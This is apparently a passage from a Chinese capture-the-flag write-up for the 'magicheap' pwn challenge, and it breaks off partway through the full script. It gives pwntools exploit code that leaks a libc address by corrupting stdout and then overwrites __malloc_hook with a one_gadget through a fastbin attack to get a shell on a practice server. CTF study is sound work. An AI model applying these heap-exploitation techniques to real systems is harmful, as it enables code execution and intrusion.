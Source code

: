 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM4jF87LURMEUyPIVOZfrvF3UyHhyJichYibicNnMn8msT2ukAZFXGnRBpXyVjrv6WEFGiaCG1TSiawQwxw/640?wx_fmt=png "")  
  
  
  
接下来覆盖  
stdout  
即可  
leak  
出地址  
```
add(0x60,'A')
payload = 'A'*0x33
payload += p64(0xfbad1800)
payload += p64(0)*3
payload += '\x00'
add(0x60,payload)
leak = u64(io.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
success(hex(leak))
libc_base = leak-0x3c5600
```  
  
接下来正常劫持  
malloc_hook  
为  
one_gadget  
即可  
```
malloc_hook = libc_base + libc.sym['__malloc_hook']
success(hex(malloc_hook))
one = [0x45226,0x4527a,0xf03a4,0xf1247]
one1 = [0x45216,0x4526a,0xf02a4,0xf1147]
one_gadget = libc_base + one[3]
add(0x60,'ccccc')
free(3)
edit(2,0x80,'A'*0x60+p64(0)+p64(0x71)+p64(malloc_hook-0x23))
add(0x60,'A')
add(0x60,'A'*0x13+p64(one_gadget))
choice(1)
io.recvuntil(':')
io.sendline('20')
io.interactive()
```  
  
完整  
exp:  
```
from pwn import *
elf = ELF('./magicheap')
io = remote('node4.buuoj.cn',27557)
#io = process('./magicheap')
#libc = elf.libc
libc = ELF('./libc-2.23.so')
context.log_level='debug'
def choice(c):
io.recvuntil(':')
io.sendline(str(c))
def add(size,content):
choice(1)
io.recvuntil(':')
io.sendline(str(size))
io.recvuntil(':')
io.send(content)
def edit(index,size,content):
choice(2)
io.recvuntil(':')
io.sendline(str(index))
```